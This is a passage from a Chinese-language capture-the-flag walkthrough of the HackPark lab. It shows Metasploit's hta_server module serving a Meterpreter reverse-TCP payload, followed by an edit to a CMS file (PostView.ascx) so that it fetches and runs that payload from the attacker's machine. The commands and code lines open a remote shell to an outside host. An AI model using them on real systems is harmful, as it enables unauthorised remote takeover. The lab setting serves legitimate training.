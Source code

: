 然后，我开始启动 Metasploit 来处理传入的 Meterpreter 反向 shell:

```
**┌──(dna@deniers)-[~/hackpark]
└─$ sudo msfconsole                    
[sudo] password for dna: *inserts password*****msf6 > use exploit/windows/misc/hta_server**
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp**msf6 exploit(windows/misc/hta_server) > set LHOST <attackbox ip>**
LHOST => <attackbox ip>
**msf6 exploit(windows/misc/hta_server) > exploit**
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.[*] Started reverse TCP handler on <attackbox ip>:4444 
[*] Using URL: http://<attackbox ip>:8080/dropper.hta
[*] Server started.
**msf6 exploit(windows/misc/hta_server) >**
```

然后，我编辑了带有参数的`PostView.ascx`文件，该参数指向我的 AttackBox (Ln)上的 Meterpreter HTML 应用程序。27):

```
[... snip ...]
payload.StartInfo.Arguments = **"http://<attackbox ip>:8080/dropper.hta"**; // url to HTA with payload
[... snip ...]
```

我通过首先进入内容部分(图 8a)将漏洞上传到 CMS 中，这将给我一个在网站上发表的文章列表。然后我转到“欢迎来到 HackPark”这篇文章(图 8b)，它给了我以下网页(图 9):

![](img/462bd2b39c6b190340dba0bc245c0217.png)
